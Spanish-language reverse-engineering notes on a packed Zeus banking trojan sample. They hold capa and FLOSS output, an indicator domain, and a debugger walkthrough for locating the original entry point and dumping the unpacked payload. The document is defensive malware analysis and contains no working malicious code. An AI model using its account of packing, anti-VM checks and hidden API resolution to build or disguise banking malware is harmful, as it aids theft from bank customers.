- Inyección en Memoria: La presencia de funciones como `VirtualQueryEx` y `WriteFile` sugieren la preparación del espacio de memoria para inyectar el código malicioso en otros procesos legítimos del sistema.

- Persistencia y Ejecución: El uso de `WinExec` indica que el malware lanzará procesos adicionales (como el falso instalador de Flash detectado en análisis previos).

- Reconocimiento del Sistema: Cadenas como `GetLogicalDrives`, `GetDriveTypeA` y `GetSystemDefaultUILanguage` muestran que el malware "estudia" la víctima (idioma, discos conectados) para decidir si procede con el ataque o si está en un entorno de análisis (sandbox).


## 7. Ofuscación de Datos (Payload)
El reporte de FLOSS muestra grandes bloques de texto cifrado o codificado, como por ejemplo: `Km}0+, 85+IZrM4lXHU...`.
- Estos bloques corresponden al configurador de Zeus, que contiene la lista de bancos objetivo, las URLs de los servidores de control (C2) y las plantillas de inyección web (scripts que modifican la web del banco).

- El hecho de que estas cadenas no sean legibles incluso para FLOSS confirma que el malware utiliza un algoritmo de cifrado personalizado (como una variante de RC4 o XOR) para proteger su infraestructura.


## 8. Un dominio
```
corect.com
```

## DLL usadas
- SHLWAPI.dll: 
- KERNEL32.dll:
- USER32.dll:
- KERNEL32.MulDi:


-------------------------

# Próximos pasos prácticos de análisis
- Localizar el entry‑point y ver en qué sección cae; si es .itext, desensamblar ese stub completo primero.
- Marcar las RVAs de .data y .pdata y colocar hardware breakpoints en escritura/ejecución sobre esas regiones en x32dbg para ver exactamente cuándo se modifican y desde qué código.
- Volcar las secciones .data y .pdata antes y después de la rutina de desencriptado para comparar y recuperar payload/config de forma limpia.
- Buscar en los volcados cadenas ofuscadas (URL, paths de bancos, user‑agents, “/gate.php”, etc.) que te confirmen familia y te den IOCs de C2.


# Análisis capa de zeusBank
[analisis-capa](capturas/analisis-capa-zeusBank.png)

```

(capa-env) usuario@usuario-1-2:~/Escritorio/ZeusBankingVersion_26Nov2013.$ capa invoice_2318362983713_823931342io.pdf.exe 
┌──────────┬──────────────────────────────────────────────────────────────────────────────────────────────────┐
│ md5      │ ea039a854d20d7734c5add48f1a51c34                                                                 │
│ sha1     │ 9615dca4c0e46b8a39de5428af7db060399230b2                                                         │
│ sha256   │ 69e966e730557fde8fd84317cdef1ece00a8bb3470c0b58f3231e170168af169                                 │
│ analysis │ static                                                                                           │
│ os       │ windows                                                                                          │
│ format   │ pe                                                                                               │
│ arch     │ i386                                                                                             │
│ path     │ /home/usuario/Escritorio/ZeusBankingVersion_26Nov2013./invoice_2318362983713_823931342io.pdf.exe │
└──────────┴──────────────────────────────────────────────────────────────────────────────────────────────────┘
┏━━━━━━━━━━━━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ ATT&CK Tactic             ┃ ATT&CK Technique                                                     ┃
┡━━━━━━━━━━━━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┩
│ DEFENSE EVASION           │ Obfuscated Files or Information [T1027]                              │
│                           │ Virtualization/Sandbox Evasion::System Checks [T1497.001]            │
└───────────────────────────┴──────────────────────────────────────────────────────────────────────┘
┏━━━━━━━━━━━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ MBC Objective            ┃ MBC Behavior                                                               ┃
┡━━━━━━━━━━━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┩
│ ANTI-BEHAVIORAL ANALYSIS │ Virtual Machine Detection [B0009]                                          │
│ DEFENSE EVASION          │ Obfuscated Files or Information::Encryption-Standard Algorithm [E1027.m05] │
└──────────────────────────┴────────────────────────────────────────────────────────────────────────────┘
┏━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ Capability                                              ┃ Namespace                              ┃
┡━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┩
│ reference anti-VM strings targeting VMWare              │ anti-analysis/anti-vm/vm-detection     │
│ encrypt data using chaskey                              │ data-manipulation/encryption/chaskey   │
│ resolve function by parsing PE exports (2 matches)      │ load-code/pe                           │
└─────────────────────────────────────────────────────────┴────────────────────────────────────────┘
``` 


# Analisis del plugin de capa para ghidra

```
INFO:capa_ghidra:capa encountered warnings during analysis
md5                     ea039a854d20d7734c5add48f1a51c34                        
sha1                                                                            
sha256                  69e966e730557fde8fd84317cdef1ece00a8bb3470c0b58f3231e17…
path                    /home/xxniwexx/Escritorio/muestras-malware/ZeusBanking/…
timestamp               2026-02-03 16:27:36.407909                              
capa version            9.2.1                                                   
os                      windows                                                 
format                  Portable Executable (PE)                                
arch                    x86                                                     
analysis                static                                                  
extractor               ghidra                                                  
base address            0x400000                                                
rules                   /home/xxniwexx/Escritorio/capa-rules                    
function count          77                                                      
library function count  0                                                       
total feature count     10743                                                   

contain loop (11 matches, only showing first match of library rule)
author  moritz.raabe@mandiant.com
scope   function                 
function @ 0x40113B
  or:
    characteristic: loop @ 0x40113B

reference anti-VM strings targeting VMWare
namespace   anti-analysis/anti-vm/vm-detection                                  
author      michael.hunhoff@mandiant.com, @johnk3r                              
scope       file                                                                
att&ck      Defense Evasion::Virtualization/Sandbox Evasion::System Checks      
            [T1497.001]                                                         
mbc         Anti-Behavioral Analysis::Virtual Machine Detection [B0009]         
references  https://github.com/LordNoteworthy/al-khaser/blob/master/al-khaser/A…
or:
  regex: /vmci/i
    - "e_9g+cYbmY2Wr5yL/W+9f6jiMh1[Igj2xvY{r9skJVl25LJbjQVBmtPC8uV9SSX83Udh8JmEkUBZ0[a
....
....
gxQhwbCXsI61P+PlRRQrxS:j2IOzzShaOTvMeszurA69{3Hew3DevX9Wc0{6FlzSVHDcMcTQXwgEkCKm
DWOg,bLqM/QDUGlKg2sPwnUuUirBmKCmNs0wWfsFf24FNUeZl0eLRMyYIX1V1TPI4m:JBAiuQHYfqY{6
FTqUmKYumeREy/8C5hc330naTafxo/PYSAWwE1y1k/G0jE[7twZgUFI6X6m7OHM+6Q:cJJ" @ file+0x41A9D4

packed with generic packer
namespace  anti-analysis/packer/generic                                         
author     william.ballenthin@mandiant.com                                      
scope      function                                                             
att&ck     Defense Evasion::Obfuscated Files or Information::Software Packing   
           [T1027.002]                                                          
mbc        Anti-Static Analysis::Software Packing::Standard Compression         
           [F0001.002]                                                          
function @ 0x402AAF
  and:
    characteristic: cross section flow @ 0x40479F, 0x404AA2
    not:
      match: contain pusha popa sequence
    or:
      mnemonic: pushad @ 0x404548
    or:
      mnemonic: popad @ 0x402E61, 0x4041BF, 0x404AED

encrypt data using chaskey
namespace   data-manipulation/encryption/chaskey                                
author      still@teamt5.org                                                    
scope       function                                                            
att&ck      Defense Evasion::Obfuscated Files or Information [T1027]            
mbc         Defense Evasion::Obfuscated Files or                                
            Information::Encryption-Standard Algorithm [E1027.m05]              
references  https://mouha.be/chaskey/,                                          
            https://github.com/TheWover/donut/blob/47758d787209dd1744f58c140102…
function @ 0x402AAF
  and:
    match: contain loop @ 0x402AAF
      or:
        characteristic: loop @ 0x402AAF
        characteristic: recursive call @ 0x402AAF
    instruction:
      and:
        number: 0xD @ 0x4032A0
        or:
          mnemonic: shl @ 0x4032A0
    instruction:
      and:
        number: 0x8 @ 0x402B4B
        or:
          mnemonic: shl @ 0x402B4B
    instruction:
      and:
        number: 0x7 @ 0x402CA9
        or:
          mnemonic: shl @ 0x402CA9
    instruction:
      and:
        number: 0x5 @ 0x403528
        or:
          mnemonic: shl @ 0x403528
      and:
        number: 0x5 @ 0x40535B
        or:
          mnemonic: shl @ 0x40535B
    count(characteristic(nzxor)): 6 or more @ 0x402AFB, 0x402B0A, 0x402B4E, 0x402B55, and 165 more...

(internal) packer file limitation
namespace    internal/limitation/static                                         
author       william.ballenthin@mandiant.com                                    
scope        file                                                               
description  This sample appears to be packed.                                  
                                                                                
             Packed samples have often been obfuscated to hide their logic.     
             capa cannot handle obfuscation well using static analysis. This    
             means the results may be misleading or incomplete.                 
             If possible, you should try to unpack this input file before       
             analyzing it with capa.                                            
             Alternatively, run the sample in a supported sandbox and invoke    
             capa against the report to obtain dynamic analysis results.        
                                                                                
or:
  match: anti-analysis/packer @ 0x402AAF
    and:
      characteristic: cross section flow @ 0x40479F, 0x404AA2
      not:
        match: contain pusha popa sequence
      or:
        mnemonic: pushad @ 0x404548
      or:
        mnemonic: popad @ 0x402E61, 0x4041BF, 0x404AED

resolve function by parsing PE exports
namespace  load-code/pe
author     sara-rn     
scope      function    
function @ 0x40A3B6
  and:
    os: windows
    or:
      characteristic: loop @ 0x40A3B6
      mnemonic: movzx @ 0x40A7E6, 0x40A883, 0x40AAFD, 0x40AB09, and 19 more...
    and:
      offset: 0x3C = IMAGE_DOS_HEADER.PE.e_lfanew @ 0x40A5AF, 0x40A7A7, 0x40AAB5, 0x40ACA7, and 2 more...
      or:
        and:
          arch: i386
          offset: 0x78 = offset to IMAGE_DATA_DIRECTORY[IMAGE_DIRECTORY_ENTRY_EXPORT] @ 0x40AC70, 0x40B067, 0x40B097
      3 or more:
        offset: 0x14 = IMAGE_EXPORT_DIRECTORY.NumberOfFunctions @ 0x40A539, 0x40A5DF, 0x40A69A, 0x40A6F3, and 19 more...
        offset: 0x24 = IMAGE_EXPORT_DIRECTORY.AddressOfNameOrdinals @ 0x40A635, 0x40A8FC, 0x40AFDA, 0x40B766, and 1 more...
        offset: 0x20 = IMAGE_EXPORT_DIRECTORY.AddressOfNames @ 0x40A676, 0x40A71E, 0x40A9D8, 0x40AAC3, and 12 more...
        offset: 0x18 = IMAGE_EXPORT_DIRECTORY.NumberOfNames @ 0x40A5A3, 0x40A623, 0x40A7C4, 0x40A870, and 20 more...
        offset: 0x1C = IMAGE_EXPORT_DIRECTORY.AddressOfFunctions @ 0x40A558, 0x40A560, 0x40A564, 0x40A5B7, and 18 more...


Script /home/xxniwexx/ghidra_scripts/capa_ghidra.py called exit with code 0
capa_ghidra.py> Finished!
```

Aunque el aviso de "Packed" persiste, capa ha identificado capacidades específicas que confirman la peligrosidad de esta muestra.

Aquí tienes el desglose técnico de lo que ha encontrado:
1. “This sample appears to be packed” (limitación clave)

    capa dispara la advertencia (internal) packer file limitation porque detecta rasgos muy típicos de packer/loader:
        - cross section flow (flujo de ejecución que salta entre secciones) en 0x40479F, 0x404AA2
        - presencia de pushad / popad en varios sitios (0x404548, 0x402E61, 0x4041BF, 0x404AED)

Esto suele corresponder a:
- stub de desempaquetado (guarda contexto con pushad, hace trabajo, restaura con popad),
- transferencia al OEP (Original Entry Point) una vez desempaqueta/descifra en memoria.


2. “packed with generic packer” en 0x402AAF

0x402AAF es candidata a:
- rutina de decompress/decrypt,
- o parte central del unpacking loop.


3. “encrypt data using chaskey” (en 0x402AAF)
- Capa está detectando el patrón de Chaskey.
- Hay datos cifrados/obfuscados que se desbloquean en runtime.

Qué hacer con esto en Ghidra (sin perder tiempo):
- Localizar todas las Xrefs a 0x402AAF.
- Mirar qué buffers entran (punteros a datos) y qué buffers salen (dónde escribe).
- Identificar el blob origen (suele estar en .rdata o .rsrc) y el buffer destino (heap/stack/memoria RWX o RW que luego se ejecuta).
- Buscar el punto donde, tras terminar, el flujo hace un call reg / jmp reg hacia el resultado: eso suele ser el salto al OEP/payload.


1. Evasión de Defensas (Anti-Analysis)

    Detección de VMWare: Capa ha detectado cadenas relacionadas con vmci (Virtual Machine Communication Interface). Esto confirma que el malware busca activamente si se está ejecutando en una máquina virtual de VMWare para detenerse o cambiar su comportamiento y así frustrar tu análisis.

    Empaquetado (Generic Packer): La herramienta ha identificado el uso de instrucciones PUSHAD (en 0x404548) y POPAD. Estas instrucciones se usan para guardar y restaurar el estado de todos los registros del CPU, una técnica "clásica" de los packers para ejecutar el código malicioso y luego devolver el control al sistema como si nada hubiera pasado.

    Flujo entre secciones (Cross section flow): Ha detectado saltos de código entre diferentes secciones (en 0x40479F y 0x404AA2). Esto ocurre cuando el stub de desempaquetado en .text termina su trabajo y salta a la sección donde ha volcado el Zeus real (probablemente .pdata o memoria nueva).


Cómo decidir rápido (en Ghidra):
- Buscar referencias (Xrefs) a esa región de datos file+0x41A9D4.
- Si la región solo se usa como “payload cifrado” (entra en 0x402AAF), entonces “vmci” es probablemente casual.
- Si vemos lógica que hace búsqueda de strings, comparaciones case-insensitive, o llamadas a APIs de sistema (drivers/servicios) usando ese literal, entonces sí hay anti-VM.


2. Manipulación de Datos y Criptografía

    Algoritmo Chaskey: Es un hallazgo muy específico. Capa identificó patrones de cifrado Chaskey en la función 0x402AAF. Zeus utiliza esto para cifrar su archivo de configuración o las comunicaciones con su servidor C2.

    Uso intensivo de XOR y SHL: La detección de múltiples operaciones nzxor (XOR no nulo) y desplazamientos de bits (shl) refuerza la presencia de un motor criptográfico activo para ocultar datos bancarios.

3. Carga Dinámica de Funciones (PE Exports)

    Resolución de funciones: En la función 0x40A3B6, capa detectó que el malware está analizando manualmente las cabeceras PE (buscando IMAGE_DOS_HEADER, AddressOfNames, etc.).

    Por qué es importante: Esto explica por qué no veías VirtualAlloc en la lista de importaciones estáticas. Zeus está buscando las direcciones de las funciones del sistema directamente en la memoria de Windows para evitar que herramientas como pestudio las detecten fácilmente.


------

# Encontrar el OEP (Original Entry Point)

## Fase 1: La Emboscada (Preparación)
El objetivo es interceptar al malware justo cuando pide memoria al sistema operativo para mudarse y ejecutarse en la memoria.
- Cargamos el malware en x32dbg.
- Buscamos la función clave:
  - Vamos a la pestaña Symbols (Símbolos).
  - En la lista de módulos (izquierda), hacemos doble clic en kernel32.dll (o kernelbase.dll).
  - En la lista de funciones, buscamos VirtualAlloc.
- Ponemos el Breakpoint:
  - Pulsamos F2 sobre VirtualAlloc para poner un punto de interrupción.
  - Nota: Si el malware usa VirtualAllocEx, ponlo ahí también por si acaso.

## Fase 2: Identificar la "Nueva Casa"
Ahora dejamos correr al malware hasta que nos diga dónde va a vivir.
- Ejecutamos (F9): Le damos a F9 hasta que el depurador se detenga en VirtualAlloc.  
    
- Ejecutamos hasta el Retorno (Ctrl+F9):
  - Una vez parado en la función, pulsamos Ctrl+F9. Esto ejecuta la función y se detiene justo cuando termina.
      
- Capturamos la Dirección (EAX):
  - Miramos el registro EAX.
  - Si vemoss una dirección "aburrida" (muy baja como 000xxxxx o muy alta de sistema), repetimos el proceso (F9 -> Ctrl+F9).
- Buscamos una dirección dinámica y nueva (en tu caso fue 35670000, pero otras veces vimos 00590000). Esa es la memoria reservada para el virus.


## Fase 3: La Trampa del Mapa (El "Memory Breakpoint")
  
Este fue el paso decisivo. En lugar de adivinar cuándo saltará, vigilamos el barrio entero.
- Haz clic derecho sobre el valor de EAX.
- Selecciona "Follow in Dump" (Seguir en volcado).
- El panel inferior izquierdo (Dump) te mostrará esa zona de memoria (probablemente llena de ceros 00 00 ahora mismo. El packer ha reservado el terreno, pero aún no ha construido la casa, no ha descifrado el código).
- Abrimos el Mapa de Memoria: Ve a la pestaña Memory Map (o pulsa Alt+M).

- Localiza la Región: Busca la fila que comienza con la dirección que viste en EAX.
  - Veremos que tiene permisos RW (Lectura/Escritura) o ERW (Ejecución/Lectura/Escritura).


- Activa la Alarma:
  - Hacemos Clic Derecho sobre esa fila: Selecciona el primer byte de ese volcado (esquina superior izquierda del panel de dump).
  - Haz clic derecho -> Breakpoint -> Hardware, on Execution (Hardware, en ejecución).
  - Esto le dice al depurador: "Si alguien toca esta memoria, ¡congela todo!".


## Fase 4: El Salto al OEP
- Volvemos a la CPU: Pestaña "CPU".
- Limpiamos el camino: Quita el breakpoint de VirtualAlloc (F2) para que no moleste más.
- Corre (F9): Pulsa F9.
  - El depurador correrá unos segundos (mientras el packer descifra) y se detendrá automáticamente en cuanto entre en la zona nueva.
- Verifica: Deberías ver instrucciones de código (rojas) en una dirección nueva (ej. 356713F0). ¡Ese es el OEP!


## Fase 5: Extracción (Scylla)






Aquí es donde aseguramos el botín.
- Abrimos Scylla: Plugins > Scylla (o el icono del semáforo/casco).
- Corregimos el OEP (CRUCIAL):
  - Scylla a veces se confunde y pone una dirección de Windows (77...).
  - Bórrala y asegúrate de que pone la dirección donde estás parado ahora mismo (la del paso 4).
- Reconstruye la IAT:
  - Clic en IAT Autosearch. (Debe decir "IAT found").
  - Clic en Get Imports. (Debe salir una lista de librerías válida).
- Vuelca el Archivo:
  - Clic en Dump PE -> Guarda como zeus_unpacked.exe.
  - Clic en Fix Dump -> Selecciona el archivo anterior.

-----------------------------------------------------------------------------------
***********************************************************************************

Encontrar el OEP mediante análisis estático en Ghidra con una muestra empaquetada como esta de ZeusBank es un reto, pero hay patrones clásicos que puedes seguir. El objetivo es identificar el momento exacto en el que el "packer" termina de escribir el código limpio en la memoria y le cede el control.

## Pasos para localizarlo:
### 1. Rastrear el uso de VirtualAlloc

Como vimos en el análisis de imports, el malware utiliza VirtualAlloc para reservar un nuevo espacio en la memoria RAM donde desempaquetará el Zeus real.

    En el Symbol Tree, busca VirtualAlloc dentro de Imports.

    Haz clic derecho y selecciona Show References to (o presiona Ctrl+E).

    Analiza el código después de la llamada. El valor de retorno (en el registro EAX) será la dirección de la nueva memoria. Busca dónde se guarda esa dirección (normalmente en una variable global o un puntero en la pila).


Hemos puesto estos BP:
1) Breakpoints “directos” por direcciones del stub

Pon breakpoints en estas VAs (según tu base 0x400000, coinciden tal cual):

bp 00405703 (retorno inmediato que viste en Call Stack: To = 00405703)

bp 00408884 (siguiente retorno clave que viste en Call Stack)


Ahora lo que toca es usar esos BP para localizar el “salto de transferencia” del stub al payload desempaquetado. El OEP (en packed samples) suele estar a 1–10 instrucciones después del último popad “real” o inmediatamente después de que termine 0x402AAF.


Parece que se bloquea en 00405703 No está “bloqueado”: está parado porque acabas de caer en tu breakpoint de 00405703. Mientras ese BP siga activo, cada vez que ejecutes (o si el flujo vuelve a pasar por ahí) vas a “sentir” que no avanza.

En tu punto actual, la jugada correcta es:

1) Desactiva el BP de 00405703 (ya cumplió su función)


Deja activo el BP de 00408884 (ese es el siguiente hito).

2) Asegúrate de que 00402AAF sigue desactivado

Si 00402AAF sigue activo, vas a rebotar otra vez al unpacker y parecerá que no progresas.

Breakpoints → desactiva 00402AAF si está activo.

3) Ahora sí: F9 (Run) para que llegue a 00408884

Pulsa F9. Lo esperado: llegamos a 00408884 -->

00408884 NO suele ser el OEP, es el punto “post-unpack” donde el stub empieza a resolver/cachar APIs (en tu captura se ve clarísimo: test byte ptr [410B90],1 + mov eax, [PathIsRelativeA] + or [410B90],1 + guardar punteros en 41070x). Desde aquí, lo que te interesa es capturar el salto a la región ejecutable del payload.


Desactiva el BP en 00408884 (F2 sobre la línea o en “Breakpoints → Disable”).
Si lo dejas activo, cuando el flujo vuelva a pasar por ahí te parecerá que “no avanza”.


Activa breakpoints “infalibles” para encontrar el OEP

En la barra de comandos de x32dbg escribe:

bpx kernel32.VirtualProtect

bpx ntdll.NtProtectVirtualMemory

(opcional pero útil) bpx kernel32.VirtualAlloc

(opcional) bpx ntdll.NtAllocateVirtualMemory

Luego F9 (Run).




Por qué: el packer casi siempre hace RW → RX/RWX antes de saltar al payload.


donde: Romper en ntdll!ZwAllocateVirtualMemory es una señal muy buena. En packed samples, esto suele ser el momento en que el stub reserva el buffer donde va a desempaquetar/descifrar el payload. Ahora el objetivo es:
- recuperar la dirección base y tamaño del buffer recién asignado,
- vigilar cuándo lo rellenan y cuándo lo marcan ejecutable,
- poner un break-on-execute para que el primer salto a ese buffer sea tu OEP efectivo.
- ProcessHandle = FFFFFFFF → current process ✅ (no es inyección remota)
- BaseAddress = 0019F900* (puntero donde el kernel escribirá la base real)
- RegionSize = 0019F8FC* (puntero donde escribirá el tamaño real)
- AllocationType = 0x1000 (MEM_COMMIT)

Falta ver Protect porque no sale en los 5 primeros slots; en el stack suele estar en [ESP+18] (desplázate un poco en la vista Stack si hace falta). Si Protect ya es 0x40/0x20/0x10 (EXECUTE*), puede que el buffer sea ejecutable desde el inicio:
- [esp+18] = 00000004, que en ZwAllocateVirtualMemory es el parámetro Protect y vale:
- 0x04 = PAGE_READWRITE


Esto confirma que la región que están reservando NO es ejecutable todavía. Es un buffer RW típico para desempaquetar/descifrar el payload. El OEP aparecerá más tarde, cuando:
- cambien la protección a PAGE_EXECUTE* (VirtualProtect / NtProtectVirtualMemory), y
- hagan jmp/call hacia esa región.


Interpretación rápida de valores de Protect (para que no haya dudas)
- 0x04 = RW (lo que tenemos ahora)
- 0x20 = RX ✅ muy común para payload final
- 0x40 = RWX ✅ packers “perezosos”
- 0x10 = X
- 0x02 = R


donde se ve que la syscall ya devolvió éxito:
- EAX = 0 → STATUS_SUCCESS
- El “out param” BaseAddress* ya fue escrito: en el dump se ve [0019F900] = 00467000 ✅
- El “out param” RegionSize* parece quedar en [0019F8FC] = 00010000 (64 KB) ✅
- Y ya sabíamos que Protect = 0x04 (RW).
- Eso significa: han reservado un buffer RW en 0x00467000 (size 0x10000) donde casi seguro van a desempaquetar/descifrar el payload.


Pon YA los breakpoints de memoria en el buffer 00467000 (clave para el OEP)

Como ya confirmaste:
- Base = 00467000
- Size = 00010000
- Protect = 0x04 (RW)

En la consola de x32dbg ejecuta:
- bpm 00467000,10000,w
- bpm 00467000,10000,x

---

